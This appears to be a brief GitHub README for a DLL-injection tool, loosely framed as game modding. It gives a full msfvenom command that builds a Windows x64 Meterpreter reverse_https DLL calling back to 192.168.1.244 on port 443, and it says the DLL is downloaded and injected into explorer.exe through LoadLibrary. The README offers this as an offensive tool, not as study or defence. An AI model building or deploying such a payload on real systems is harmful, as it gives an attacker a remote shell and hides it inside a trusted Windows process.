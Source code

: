 # DLL-injection
Usually fun with injecting into video games
basic dll injection script 
script will download the following 
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.244 LPORT=443 -f dll -o met.dll       

dll will be injected into explorer.exe using loadlibrary 
![image](https://github.com/user-attachments/assets/5c7334f5-e9f1-4adb-9ec7-87610728c5fc)
